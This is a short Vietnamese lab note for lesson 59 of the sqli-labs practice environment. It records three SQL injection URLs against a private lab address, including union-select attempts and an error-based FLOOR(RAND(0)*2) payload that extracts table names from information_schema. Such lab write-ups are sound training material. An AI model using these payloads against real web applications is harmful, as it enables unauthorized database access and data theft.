



# Những việc làm được với lesson-59
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-59



- Lần 1: Ta thấy có thông báo lỗi chứng tỏ có thể sử dụng error-base giống như 58
```
192.168.80.225/sqli-labs/Less-59/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

- Lần 2: 
```
192.168.80.225/sqli-labs/Less-59/?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



Đã đúng cấu trúc nhưng mà vẫn hiển thị như bài 58 vậy ta có cách làm giống thế nhưng khác cấu trúc 

- Lần 3: Tìm tên table 
```
192.168.80.225/sqli-labs/Less-59/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



TƯơng tự bài 58 với cấu trúc của bài này 

